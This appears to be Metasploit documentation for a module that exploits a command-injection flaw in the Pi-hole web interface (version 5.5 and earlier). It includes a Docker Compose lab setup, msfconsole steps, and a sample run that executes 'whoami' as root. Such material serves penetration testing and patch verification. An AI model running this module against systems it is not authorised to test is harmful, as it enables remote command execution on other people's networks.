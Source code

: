 ## Vulnerable Application

This exploits a command execution in Pi-Hole Web Interface <= 5.5.
The Settings > API/Web inetrace page contains the field
Top Domains/Top Advertisers which is validated by a regex which does not properly
filter system commands, which can then be executed by calling the gravity
functionality.  However, the regex only allows a-z, 0-9, _.

### Docker Compose

Using the Docker compose file below, execute `docker compose up -d`
to get a vulnerable environment running.

```
version: "3"

# More info at https://github.com/pi-hole/docker-pi-hole/ and https://docs.pi-hole.net/
services:
  pihole:
    container_name: pihole
    image: pihole/pihole:v5.5
    ports:
      #- "53:53/tcp"
      #- "53:53/udp"
      #- "67:67/udp"
      - "192.168.2.199:80:80/tcp"
    environment:
      TZ: 'America/Chicago'
      WEBPASSWORD: ''
    # Volumes store your data between container upgrades
    volumes:
      - './etc-pihole/:/etc/pihole/'
      - './etc-dnsmasq.d/:/etc/dnsmasq.d/'
    # Recommended but not required (DHCP needs NET_ADMIN)
    #   https://github.com/pi-hole/docker-pi-hole#note-on-capabilities
    cap_add:
      - NET_ADMIN
    restart: unless-stopped
```

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/admin/http/pihole_domains_api_exec`
4. Do: `set rhosts [ip]`
5. Do: `run`
6. You should get the output from the command.

## Options

### COMMAND

The command to run. This is VERY restrictive. Valid characters are `0-9`, `a-z`, `_`.
[Ref](https://github.com/pi-hole/AdminLTE/blob/v5.3.1/scripts/pi-hole/php/savesettings.php#L71). Defaults to `pwd`.

## Scenarios

### Pi-hole v5.2.4 with Web Interface 5.3.1 via Docker

```
[*] Processing pihole.rb for ERB directives.
resource (pihole.rb)> use auxiliary/admin/http/pihole_domains_api_exec
resource (pihole.rb)> set rhosts 192.168.2.199
rhosts => 192.168.2.199
resource (pihole.rb)> set verbose true
verbose => true
resource (pihole.rb)> run
[*] Running module against 192.168.2.199
[+] Web Interface Version Detected: 5.3.1
[*] Using token: YbGnWVA3ogVs0eLaKjEDGPaX8Zy1l5X3dxfHHSdy6r8=
[*] Sending payload request
[*] Forcing gravity pull
[+] /var/www/html/admin/scripts/pi-hole/php
[*] Auxiliary module execution completed
msf auxiliary(admin/http/pihole_domains_api_exec) > set command whoami
command => whoami
msf auxiliary(admin/http/pihole_domains_api_exec) > run
[*] Running module against 192.168.2.199

[+] Web Interface Version Detected: 5.3.1
[*] Using token: 9dtOO2bIndYSyJ1KsGYBa7pV5B4MToTQB1h2dmRfHk8=
[*] Sending payload request
[*] Forcing gravity pull
[+] root
[*] Auxiliary module execution completed
```
